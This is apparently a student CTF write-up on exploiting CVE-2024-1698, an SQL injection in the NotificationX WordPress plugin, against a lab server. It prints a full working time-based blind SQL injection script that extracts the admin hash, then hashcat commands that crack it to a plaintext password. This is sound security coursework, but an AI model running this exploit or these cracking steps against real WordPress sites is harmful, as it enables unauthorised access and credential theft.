




# CTF8

This document is a brief explanation of our resolution of the SQL Injection CTF given to us during week 8.

## Recognition

First we searched in the site for possiblem usernames and a possible username for the admin account. We found 2 possible users: admin and concerned-hacker. 

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 1: Admin user.</figcaption>
    </figure>
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 2: concerned-hacker user.</figcaption>
    </figure>
</div>

After that we searched for the vesion of the WordPress and the version of the plugins.
We found oembed version 1.0, notificationx v1 and other versions.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 3: Versions found on the site (http://44.242.216.18:5008/wp-json)</figcaption>
    </figure>
</div>


## Searching and Choosing for Vulnerabilities

When we searched the versions each one we found we searched for vulnerabilities, so when we found notificationx v1 and seached we found CVE-2024-1698, that was exactly what we where looking for.

```txt
The NotificationX (...) plugin for WordPress is vulnerable to SQL Injection via the 'type' parameter in all versions up to, and including, 2.8.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.

This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
(https://nvd.nist.gov/vuln/detail/cve-2024-1698)
```

## Exploring the Vulnerabilities

Now that we had our vulnerability, it was time to explore it. To do that we found an [exploit](https://github.com/kamranhasan/CVE-2024-1698-Exploit) script and adapted it to our site. 

```py
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 4

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

# We already new the admin username, but in case the admin had another username in the database we decided to assume we didn't knew and try to find it to be sure
admin_username = "" 
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```
And when we ran this python script this showed:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 4: Finding the hashed admin password</figcaption>
    </figure>
</div>

This proved that the admin name was admin and its hashed password is $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10 .

But the password is hashed, so this is not the actual admin password.

To dehash the password we wanted to use Hashcat, so first we needed to find the hashcat mode, to do that we ran the following command:

```bash
hashid -m '$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10'
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 5: Finding the Hashcat Mode</figcaption>
    </figure>
</div>

Now to dehash the password we used Hashcat with mode 400.

```txt
hashcat -m 400 -a 0 $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10 rockyou.txt
```
In detail this command:
- -m 400: Specifies the hash type for WordPress (PHPass).
- -a 0: Indicates a dictionary attack.
- $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10: The hash we needed to crack.
- rockyou.txt: The wordlist used to dehash.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 6: Dehashing the password</figcaption>
    </figure>
</div>

The admin password is "heartbroken" and it also corresponds to the flag of this ctf.


## Tarefas

This questions were in the CTF description and we decided to include them here because these helped our thought process and helped us complete this CTF.


**Question1**: You should start by finding all the information that you can from the site. In particular, and just like the previous ctf about Wordpress, try to find the intalled software versions.

**Answer**: We searched for the softwere versions, as showed in the Recognition section of this report. This recognition is very important because it helps us find possible vulnerabilities in the next fase.


**Question2**: You already know that we want to explore an SQL injection vulnerability. Maybe there is a know vulnerability, reported in public data bases and/or tools that allow you to automate the discovery and abuse of SQL injection vulnerabilities?

**Answer**: We searched for vulnerabilities in the Notificationx plugin and found the CVE-2024-1698, that us a SQL injection vulnerability.


**Question3**: What is the endpoint of the vulnerable site, and how can an attack be carried out? How can vulnerability be catalogued?

**Answer**: With the CVE-2024-1698 we found then a way to explore a SQL injection vulnerability, so then we searched for an exploit and found [this](https://github.com/kamranhasan/CVE-2024-1698-Exploit) exploit.


**Question4**: The attack will allow you to extract information from the server's database. In particular, you want to discover the administrator's password, but as good security standards dictate, this is not stored cleanly in the database, but only a hash of the original password is stored. For this server, and in more detail, what is the password storage policy?

**Answer**: WordPress uses PHPass to hash passwords, which generates MD5-based hashes with salt and multiple iterations to slow down brute-force attacks. The hash format is identified by the $P$ prefix. This method stores a 12-character salt in the hash and applies multiple iterations of MD5. Passwords are stored in the `user_pass` column of the `wp_users` table. While this provides some protection, it is not as secure as modern methods like bcrypt or Argon2.


**Question5**: Is storing a hash of the password secure in the sense that it makes it impossible to recover the original password? This problem is very common not only in the case of vulnerabilities, but also in the case of data leaks. There are several ways to try to reverse hash functions for passwords and tools to automate the process.

**Answer**: Storing a password hashed is more secure than saving it in plain text, but it is not bullet proof. There are ways to dehash the passwords, like for example Hashcat tool that we used in this ctf.
